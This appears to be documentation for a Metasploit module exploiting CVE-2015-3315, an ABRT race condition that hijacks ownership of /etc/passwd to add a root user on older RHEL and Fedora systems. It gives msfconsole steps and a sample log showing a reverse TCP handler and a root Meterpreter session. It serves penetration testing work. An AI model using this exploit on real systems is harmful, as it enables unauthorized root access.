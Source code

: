 ## Description

  This module attempts to gain root privileges on Linux systems with
  a vulnerable version of Automatic Bug Reporting Tool (ABRT) configured
  as the crash handler.


## Vulnerable Application

  A race condition allows local users to change ownership of arbitrary
  files (CVE-2015-3315). This module uses a symlink attack on
  `/var/tmp/abrt/*/maps` to change the ownership of `/etc/passwd`,
  then adds a new user with UID=0 GID=0 to gain root privileges.
  Winning the race could take a few minutes.

  This module has been tested successfully on:

  * abrt 2.1.11-12.el7 on RHEL 7.0 x86_64
  * abrt 2.1.5-1.fc19 on Fedora Desktop 19 x86_64
  * abrt 2.2.1-1.fc19 on Fedora Desktop 19 x86_64
  * abrt 2.2.2-2.fc20 on Fedora Desktop 20 x86_64
  * abrt 2.3.0-3.fc21 on Fedora Desktop 21 x86_64


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/abrt_raceabrt_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new *root* session


## Options

### USERNAME

  Username for the new UID=0 user (default: random)

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/linux/local/abrt_raceabrt_priv_esc 
  msf exploit(linux/local/abrt_raceabrt_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/abrt_raceabrt_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [*] Writing '/tmp/.C17d3UYQy' (64240 bytes) ...
  [*] Trying to own '/etc/passwd' - This might take a few minutes (Timeout: 900s) ...
  [+] Success! '/etc/passwd' is writable
  [*] Adding pauITBusGM user to /etc/passwd ...
  [*] Writing '/tmp/.u8zOz4c' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.137
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.137:38938) at 2018-02-03 21:29:56 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Fedora 20 (Linux 3.19.8-100.fc20.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```


